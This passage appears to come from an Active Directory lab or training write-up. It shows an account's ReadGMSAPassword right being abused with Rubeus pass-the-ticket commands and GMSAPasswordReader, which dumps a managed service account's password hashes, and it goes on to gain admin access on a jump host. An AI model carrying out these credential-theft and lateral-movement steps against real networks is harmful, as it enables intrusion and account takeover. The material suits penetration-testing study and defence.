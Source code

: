 ![[provisioningsvc_perms.png]]
`us\provisioningsvc` has `ReadGMSAPassword` over the `us\jumpone$` account which means that `us\provisioningsvc` can retrieve the password for the target GMSA.
- Group Managed Service Accounts are a special type of Active Directory object, where the password for that object is managed by and automatically changed by Domain Controllers on a set interval (check the MSDS-ManagedPasswordInterval attribute).
- First we will need to impersonate `us\provisioningsvc`. Since we have the account's NTLM hash we can request a TGT for it. We will do it in a sacrificial PowerShell session.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:provisioningsvc /rc4:44dea6608c25a85d578d0c2b6f8355c4 /domain:us.techcorp.local /nowrap /ptt

<snip>
```
- We can abuse this permission with `GMSAPasswordReader.exe`. 
```powershell
PS C:\Auditor> .\GMSAPasswordReader.exe --domainname us.techcorp.local --accountname jumpone$
Calculating hashes for Old Value
[*] Input username             : jumpone$
[*] Input domain               : US.TECHCORP.LOCAL
[*] Salt                       : US.TECHCORP.LOCALjumpone$
[*]       rc4_hmac             : E6DBB7105F6111E9EE0DFEE682A1690B
[*]       aes128_cts_hmac_sha1 : 27140C141BF9D6F16C45FE85F1F36B2F
[*]       aes256_cts_hmac_sha1 : 01DC5247CE125F564602E54FBC08887D7DAEDB0867EC764D4668BB9FB5722ADC
[*]       des_cbc_md5          : D554E39DB99D70B6

Calculating hashes for Current Value
[*] Input username             : jumpone$
[*] Input domain               : US.TECHCORP.LOCAL
[*] Salt                       : US.TECHCORP.LOCALjumpone$
[*]       rc4_hmac             : 5FCF34DE780D3E51A0B7B3DC7C6C28E4
[*]       aes128_cts_hmac_sha1 : 8F384FA44EDCACD8847126C3910DD9A0
[*]       aes256_cts_hmac_sha1 : C7F3DB8D5E03CB25DA69CD11E2C749C19FC9033DBB55C37CCB8AF55CAFAACF3F
[*]       des_cbc_md5          : 7067A416EAEC7334
```
# 8. Rights, Privileges and Permissions of `us\jumpone$`
## 8.1 Access Rights
- Since we now have the hash for `us\jumpone$` account we can impersonate it by requesting a TGT, similarly as before, in a sacrificial session.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:jumpone$ /rc4:5FCF34DE780D3E51A0B7B3DC7C6C28E4 /domain:us.techcorp.local /nowrap /ptt

<snip>
```
- We can now check if we have remote access to domain computers.
```powershell
PS C:\Auditor> ipmo .\Find-PSRemotingLocalAdminAccess.ps1
PS C:\Auditor> Find-PSRemotingLocalAdminAccess
US-Jump
```
- As expected from the name of the GMSA, `us\jumpone$` can remotely access `US-JUMP`.
## 8.2 Account Privileges
- This account has administrative privileges on `US-JUMP`.
## 8.3 Account Permissions
- No interesting permissions have been discovered for this domain account.
# 9. Extracting Credentials and Tokens from `US-JUMP`